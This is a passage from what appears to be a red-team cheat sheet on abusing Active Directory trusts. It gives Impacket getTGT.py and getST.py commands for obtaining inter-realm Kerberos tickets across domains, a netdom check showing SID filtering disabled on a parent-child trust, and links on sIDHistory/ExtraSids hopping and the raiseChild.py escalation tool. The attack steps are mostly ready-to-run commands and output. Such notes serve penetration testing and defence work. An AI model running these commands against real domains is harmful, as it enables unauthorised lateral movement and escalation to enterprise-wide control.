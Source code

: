 


## Request Inter-Realm TGT with Impacket

Request a TGT in current domain:

```
$ getTGT.py -aesKey <AES_KEY> megacorp.local/snovvcrash -dc-ip 192.168.1.11
```

Request an IR TGT for the foreign domain in current domain:

```
$ KRB5CCNAME=snovvcrash.ccache getST.py -spn 'krbtgt/MEGACORP.EXTERNAL' -k -no-pass megacorp.local/snovvcrash -dc-ip 192.168.1.11 -debug
```

Request an ST in foreign domain:

```
$ KRB5CCNAME=snovvcrash_megacorp_external.ccache getST.py -spn 'ldap/DC01.MEGACORP.EXTERNAL' -k -no-pass megacorp.external/snovvcrash -dc-ip 192.168.1.22 -debug
```




## sIDHistory/ExtraSids Hopping

* [http://www.harmj0y.net/blog/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/](http://www.harmj0y.net/blog/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/)
* [http://www.harmj0y.net/blog/redteaming/the-trustpocalypse/](http://www.harmj0y.net/blog/redteaming/the-trustpocalypse/)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/child-domain-da-to-ea-in-parent-domain](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/child-domain-da-to-ea-in-parent-domain)
* [https://improsec.com/tech-blog/o83i79jgzk65bbwn1fwib1ela0rl2d](https://improsec.com/tech-blog/o83i79jgzk65bbwn1fwib1ela0rl2d)
* [https://www.thehacker.recipes/a-d/movement/trusts#forging-tickets](https://www.thehacker.recipes/a-d/movement/trusts#forging-tickets)

Abusing Bidirectional ParentChild (`WITHIN_FOREST`) trust between **child.megacorp.local ⟷ megacorp.local**.

Check if SID filtering is enabled for a trust:

```
Cmd > netdom.exe trust child.megacorp.local /domain:megacorp.local /quarantine
SID filtering is not enabled for this trust. All SIDs presented in an
authentication request from this domain will be honored.
```



### Raise Child

- [https://github.com/fortra/impacket/blob/master/examples/raiseChild.py](https://github.com/fortra/impacket/blob/master/examples/raiseChild.py)
